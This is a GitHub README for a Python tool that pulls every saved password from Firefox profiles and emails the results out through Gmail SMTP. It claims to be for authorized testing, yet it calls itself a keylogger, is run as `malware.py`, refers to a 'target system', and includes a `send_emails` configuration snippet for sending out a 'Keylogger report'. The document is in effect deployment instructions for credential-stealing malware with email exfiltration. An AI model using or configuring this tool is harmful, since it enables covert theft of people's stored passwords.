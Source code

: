 # Firefox Credentials Extractor

A Python-based security testing tool for extracting and analyzing saved Firefox browser credentials from systems. This utility leverages the [`firefox_decrypt.py`](https://github.com/unode/firefox_decrypt) library to demonstrate password storage vulnerabilities in Firefox profiles.

> [!WARNING] 
> This tool is designed **exclusively for authorized security testing, educational purposes, and legitimate system administration**. Only use this tool on systems you own or have explicit written permission to test. Unauthorized access to credentials is illegal and may result in severe legal consequences.

----------

## Features

-   **Automated Profile Discovery**: Automatically locates Firefox profile directories across different operating systems
-   **Dynamic Script Retrieval**: Downloads and executes the latest version of `firefox_decrypt.py`
-   **Comprehensive Extraction**: Retrieves all stored login credentials from Firefox password manager
-   **Secure Reporting**: Optional encrypted email delivery of audit results via SMTP

> [!IMPORTANT] 
> When using Gmail SMTP, you must either enable "App Passwords" (recommended) or configure application-specific authentication. Standard Gmail passwords will not work due to security restrictions.

----------

## Prerequisites

> [!NOTE] 
> Ensure you have the following installed before running the tool:

-   **Python 3.7+** (Python 3.8+ recommended for optimal compatibility)
-   **requests** library for HTTP operations
-   **Active internet connection** (required for downloading firefox_decrypt.py)

### Installing Dependencies

```bash
pip install requests
```

> [!TIP] 
> For production environments, consider using a virtual environment:

```bash
python -m venv firefox-auditor-env
source firefox-auditor-env/bin/activate  # On Windows: firefox-auditor-env\Scripts\activate
pip install requests
```

----------

## Configuration


### Email Setup

> [!IMPORTANT]
> Gmail App Password Configuration Required

Before using the keylogger, you must configure Gmail App Passwords:

1. Enable 2-Factor Authentication on your Gmail account
2. Generate an App Password:
   - Go to Google Account settings
   - Security → 2-Step Verification → App passwords
   - Generate a new app password
3. Update the email configuration in `keylogger.py`:

```python
self.send_emails("Keylogger report", email_body, 
                "youremail@gmail.com",           # Sender email
                ["youremail@gmail.com"],         # Recipients list
                "aaaa bbbb cccc dddd")           # App password (16 characters)
```

> [!CAUTION]
> Never commit your actual email credentials to version control. Consider using environment variables for sensitive information.

----------

## Usage

### Basic Operation

```bash
python malware.py
```

## Security Considerations

> [!IMPORTANT] 
> **Legal Compliance**: This tool should only be used in compliance with:
> 
> -   Local and international cybersecurity laws
> -   Organizational security policies
> -   Authorized penetration testing agreements
> -   Educational institution guidelines

----------

## Troubleshooting

### Common Issues

**Firefox Profile Not Found**

-   Ensure Firefox has been run at least once on the target system
-   Check if Firefox is installed in a non-standard location
-   Verify user permissions to access the profile directory

**SMTP Authentication Failures**

-   Confirm App Password is correctly configured for Gmail
-   Verify SMTP settings for non-Gmail providers

**Module Import Errors**

-   Install required dependencies using pip
-   Verify Python version compatibility
-   Check virtual environment activation

> [!NOTE] 
> For additional support, please refer to the [firefox_decrypt documentation](https://github.com/unode/firefox_decrypt) for Firefox-specific issues.

----------

## Disclaimer

> [!CAUTION] The authors and contributors of this tool are not responsible for any misuse or damage caused by this software. Users are solely responsible for ensuring their use of this tool complies with applicable laws and regulations. This tool is provided "as-is" without any warranties or guarantees.


## Author

Developed by **Marco Becerra**

